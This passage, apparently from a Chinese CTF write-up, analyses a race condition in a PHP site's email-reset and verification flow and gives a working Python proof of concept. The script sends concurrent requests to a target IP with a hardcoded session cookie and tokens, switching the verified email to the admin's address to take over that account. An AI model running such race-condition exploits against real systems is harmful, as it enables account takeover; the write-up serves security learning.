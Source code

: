 ## 条件竞争

审到这里想到条件竞争，如果走正常重置邮箱的流程，程序执行到`zUserFile::update_attr($username, 'token', '');`时，再次请求重置邮箱，由于class.user.php::validate_email()没有检查valid状态，导致新的email被写入，程序再回到`zUserFile::update_attr($username, 'email_verify', 1);`，那么攻击这就可以重置任意邮箱了。

梳理一下思路，也就是：

1. 注册用户验证邮箱
2. 重置邮箱（这里邮箱还写自己的）
3. 收到校验链接
4. 在请求校验链接同时，再次重置邮箱为管理员邮箱（ambulong@vulnspy.com，注册界面出现过），若该步骤在比较token一致--->set(email_verify=1)中间执行，则条件竞争成功。

因此有以下PoC：

```python
#!/usr/bin/env python3
import requests
import threading
HOST = "http://114.55.36.69:8023"
VERIFY_URL = "/verify.php?token=7lGBgYOtvxoW7mRHdsGEFJqr6YMDIJjD&username=admin1"
SESSION="h5evpbu7eclfe0kpfe3fad01q1"

def send_verify():
    res = requests.get(HOST + VERIFY_URL)
    print(res.text)

def reset_email():
    burp0_url = HOST + "/chgemail.php?token=JaX1dpl3"
    burp0_cookies = {"PHPSESSID": SESSION}
    burp0_data = {"email": "ambulong@vulnspy.com", "submit": "Submit"}
    res=requests.post(
        burp0_url,
        cookies=burp0_cookies,
        data=burp0_data)
    print(res.text)

def poc():
    t1 = threading.Thread(target=send_verify, args=())
    t2 = threading.Thread(target=reset_email, args=())
    t1.start()
    t2.start()
    t1.join()
    t2.join()

if __name__ == '__main__':
    poc()
```

运行后看到邮箱被修改，切换用户就能拿到flag了
